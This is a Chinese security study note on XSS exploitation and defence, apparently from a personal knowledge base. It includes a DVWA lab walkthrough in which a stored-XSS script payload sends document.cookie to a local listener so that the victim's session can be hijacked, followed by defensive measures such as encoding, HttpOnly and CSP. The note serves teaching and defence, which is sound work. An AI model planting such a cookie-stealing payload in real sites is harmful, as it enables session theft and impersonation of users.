

---
{"dg-publish":true,"permalink":"/计算机相关技术知识库/05-Web安全/XSS 利用与防御/","title":"XSS 利用与防御","tags":["Web安全/XSS"],"dg-note-properties":{"title":"XSS 利用与防御","created":"2026-10-19","tags":["Web安全/XSS"],"aliases":["XSS 盗取 Cookie","Cookie 窃取","XSS 利用"]}}
---


# XSS 利用与防御

> [!warning] 合规声明
> 本文演示均在 DVWA / pikachu 本地靶场完成，仅用于授权教学与防御学习。未经授权窃取他人 Cookie 或会话属于违法行为。

## Cookie 与 Session

很多网站有自动登录功能：在不退出浏览器的情况下保留登录状态。这本质上依赖：

| 技术 | 作用 |
|------|------|
| **Cookie** | 每次 HTTP 请求时自动发送给服务器的数据 |
| **Session** | 服务器端保存的会话状态，通常通过 Cookie 中的 Session ID 关联 |

以 B 站为例：登录一次后，很长一段时间不需要重新输入账号密码。

### 查看 Cookie

| 方法 | 操作 |
|------|------|
| 控制台 | F12 → Console → 输入 `document.cookie` |
| 开发者工具 | F12 → Application（应用程序）→ Storage → Cookies |

```javascript
document.cookie
```

> [!note] 免密登录
> 拿到有效的 Cookie / Session，往往就可以**免用户名和密码直接登录**。这正是 XSS 窃取 Cookie 的危害所在。

## XSS 盗取 Cookie（DVWA 靶场）

环境：本地 DVWA，安全级别 **low**。

### 步骤

1. 登录 DVWA：`smithy / password`，将等级设为 **low**
2. 进入 **XSS Stored** 模块
3. 在留言内容中注入以下 JS：

```html
<script>
    new Image().src = "http://127.0.0.1:8000?cookie="+document.cookie;
</script>
```

4. 在 `127.0.0.1` 上快速开启一个 HTTP 服务监听：

```bash
python3 -m http.server
```

5. 刷新任意用户的存储型 XSS 页面（low 级别）
6. 受害者的 Cookie 会作为 HTTP GET 参数发送到监听服务器，例如：

```text
GET /?cookie=PHPSESSID=xxxxx; security=low HTTP/1.1
```

7. 使用 **Cookie Editor** 浏览器插件修改 Cookie，即可冒充该用户登录

### 原理



> [!important] 为什么用 `new Image()`
> 通过创建图片对象发起 GET 请求，不需要用户点击，也不会跳转页面，隐蔽性较高。这是经典的 Cookie 外带方式。

## XSS 靶场训练

| 靶场 | 地址 |
|------|------|
| haozi.me | https://xss.haozi.me |
| pikachu | 本地 / vulfocus |
| DVWA | 本地搭建 |

## 防御要点

| 层面 | 措施 |
|------|------|
| 输出 | 按上下文进行 HTML / 属性 / URL / JS 编码 |
| 输入 | 白名单校验，限制长度与字符集 |
| 富文本 | 使用 DOMPurify 等成熟白名单过滤器 |
| Cookie | 敏感 Cookie 设置 **HttpOnly**，禁止 JS 读取 |
| Cookie | 设置 **Secure**（仅 HTTPS）与 **SameSite** |
| CSP | 限制脚本来源，禁止不安全的 inline script |
| 前端 | 避免 `innerHTML`、`document.write`、`eval` 处理用户输入 |
| 框架 | 使用框架默认转义，谨慎使用 `v-html` / `dangerouslySetInnerHTML` |
| 监控 | 对异常脚本注入、可疑外连进行检测与告警 |

> [!tip] 最有效的组合
> **输出编码 + HttpOnly + CSP**。输出编码从根源阻止脚本执行；HttpOnly 让即使 XSS 成功也拿不到会话 Cookie；CSP 进一步限制可执行的脚本来源。

## 相关笔记

- [[计算机相关技术知识库/05-Web安全/XSS 原理与分类\|XSS 原理与分类]] — 反射型、存储型、DOM 型
- [[计算机相关技术知识库/05-Web安全/Burp Proxy 模块\|Burp Proxy 模块]] — 用代理观察与修改请求
- [[计算机相关技术知识库/05-Web安全/信息收集总览\|信息收集总览]] — 寻找输入点
- [[计算机相关技术知识库/05-Web安全/文件上传漏洞与一句话木马\|文件上传漏洞与一句话木马]] — 另一种常见 Web 漏洞
- [[计算机相关技术知识库/05-Web安全/Web 渗透测试概览\|Web 渗透测试概览]] — 渗透流程总览
